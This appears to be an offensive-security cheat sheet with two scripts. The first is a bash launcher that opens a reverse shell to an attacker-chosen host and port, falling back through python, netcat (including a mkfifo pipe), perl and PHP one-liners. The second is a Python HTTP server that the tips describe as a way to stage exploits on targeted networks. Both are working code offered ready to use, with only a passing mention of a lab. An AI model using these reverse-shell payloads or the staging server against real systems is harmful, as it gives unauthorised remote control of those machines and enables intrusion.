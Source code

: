 ## 1. Robust Reverse Shell Launcher (Bash)

This script attempts several methods ( #Python3, #Python2, #Netcat—with a fallback if “-e” isn’t supported— #Perl, or #PHP) and selects the first available option. It lets you quickly pivot from limited code execution to an interactive shell.

```bash
#!/bin/bash
# robust_revshell.sh - A versatile reverse shell launcher
# Usage: ./robust_revshell.sh <LHOST> <LPORT>

if [ "$#" -ne 2 ]; then
    echo "Usage: $0 <LHOST> <LPORT>"
    exit 1
fi

LHOST=$1
LPORT=$2

echo "[*] Attempting to spawn a reverse shell to $LHOST:$LPORT"

# Function: Check if netcat supports the -e option.
nc_with_e() {
    nc -h 2>&1 | grep -q "\-e"
}

# Try Python 3
if command -v python3 >/dev/null 2>&1; then
    echo "[*] Using python3 reverse shell"
    python3 -c "import socket,os,pty; s=socket.socket(); s.connect(('$LHOST',$LPORT)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); pty.spawn('/bin/sh')"
# Try Python 2
elif command -v python >/dev/null 2>&1; then
    echo "[*] Using python reverse shell"
    python -c "import socket,os,pty; s=socket.socket(); s.connect(('$LHOST',$LPORT)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); pty.spawn('/bin/sh')"
# Try Netcat
elif command -v nc >/dev/null 2>&1; then
    if nc_with_e; then
        echo "[*] Using netcat with -e"
        nc -e /bin/sh $LHOST $LPORT
    else
        echo "[*] Using netcat fallback method"
        rm -f /tmp/f; mkfifo /tmp/f
        cat /tmp/f | /bin/sh -i 2>&1 | nc $LHOST $LPORT > /tmp/f
    fi
# Try Perl
elif command -v perl >/dev/null 2>&1; then
    echo "[*] Using perl reverse shell"
    perl -e "use Socket; \$i='$LHOST'; \$p=$LPORT; socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp')); connect(S,sockaddr_in(\$p,inet_aton(\$i))); open(STDIN, '>&S'); open(STDOUT, '>&S'); open(STDERR, '>&S'); exec('/bin/sh -i');"
# Try PHP
elif command -v php >/dev/null 2>&1; then
    echo "[*] Using php reverse shell"
    php -r "\$sock=fsockopen('$LHOST',$LPORT); exec('/bin/sh -i <&3 >&3 2>&3');"
else
    echo "[-] No suitable reverse shell method found!"
    exit 1
fi

```

**Usage Tips:**

- Before use, test each method in your lab to see which interpreters/utilities are commonly available.
- The script automatically falls back through several options, so if one method fails, another may work—ideal when targets have restricted environments.

---

## 2. Robust HTTP File Server ( #Python)

This #Python3 script starts a simple multi-threaded #HTTP server with command-line options to specify the bind interface, port, and serving directory. This helps if the target’s allowed outbound connections are limited to specific ports or if you need to serve files from a particular folder.

```python
#!/usr/bin/env python3
"""
robust_http_server.py: A versatile HTTP file server for transferring files.

Usage: python3 robust_http_server.py [-i INTERFACE] [-p PORT] [-d DIRECTORY]

Options:
  -i, --interface  Interface to bind to (default: all interfaces)
  -p, --port       Port to listen on (default: 8000)
  -d, --directory  Directory to serve (default: current directory)
"""

import http.server
import socketserver
import argparse
import sys
import os

def main():
    parser = argparse.ArgumentParser(description="Robust HTTP File Server")
    parser.add_argument("-i", "--interface", default="", help="Interface to bind to (default: all interfaces)")
    parser.add_argument("-p", "--port", type=int, default=8000, help="Port to bind to (default: 8000)")
    parser.add_argument("-d", "--directory", default=".", help="Directory to serve (default: current directory)")
    args = parser.parse_args()

    try:
        # Change working directory to the specified directory.
        os.chdir(args.directory)
    except Exception as e:
        print(f"[-] Failed to change directory: {e}", file=sys.stderr)
        sys.exit(1)

    Handler = http.server.SimpleHTTPRequestHandler
    try:
        # Using ThreadingTCPServer for handling multiple connections.
        with socketserver.ThreadingTCPServer((args.interface, args.port), Handler) as httpd:
            bind_addr = args.interface if args.interface else "0.0.0.0"
            print(f"[*] Serving HTTP on {bind_addr} port {args.port} (http://{bind_addr}:{args.port}/) ...")
            httpd.serve_forever()
    except Exception as e:
        print(f"[-] Error: {e}", file=sys.stderr)
        sys.exit(1)

if __name__ == "__main__":
    main()

```

**Usage Tips:**

- Adjust the port and interface based on the network configuration you’re targeting.
- You can serve any directory (for example, a folder containing your enumeration scripts or exploits) simply by changing the `-d` parameter.
- The threaded server handles multiple connections, which can be helpful if you’re rapidly transferring several files or need robust performance in tight scenarios.
